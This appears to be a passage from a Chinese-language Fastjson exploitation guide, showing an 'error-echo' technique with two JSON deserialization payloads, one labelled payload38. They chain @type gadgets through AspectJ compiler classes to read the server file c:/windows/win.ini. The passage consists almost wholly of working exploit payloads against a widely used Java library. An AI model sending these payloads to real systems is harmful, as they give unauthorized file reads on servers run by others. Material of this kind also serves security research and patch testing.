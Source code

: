 ```plain
[{"@type":"java.lang.Exception","@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"},{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]}}},{"username":{"@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit","@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"c:/windows/win.ini"},"password":"admin"}]
```

[![](assets/1706959415-45860c850bdd443bc6101643e8fa6f67.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231020204958021.png)

#### 4.1.1.2 报错回显法

`payload38`：

```plain
[{"@type":"java.lang.Exception","@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"},{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]}}},{"username":{"@type":"java.lang.Character"{"c":{"@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit","@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"c:/windows/win.ini"}},"password":"admin"}]
```
